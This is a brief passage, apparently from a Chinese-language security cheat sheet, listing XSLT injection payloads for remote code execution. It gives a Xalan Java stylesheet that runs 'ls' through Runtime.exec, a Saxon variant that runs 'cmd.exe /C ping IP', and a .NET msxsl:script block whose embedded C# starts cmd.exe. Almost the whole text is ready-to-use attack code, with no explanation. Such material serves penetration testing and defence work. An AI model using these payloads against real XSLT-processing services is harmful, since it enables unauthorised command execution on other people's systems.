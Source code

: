 ### 使用 Java 进行远程代码执行

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### 使用原生 .NET 进行远程代码执行

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
</xsl:stylesheet>
```

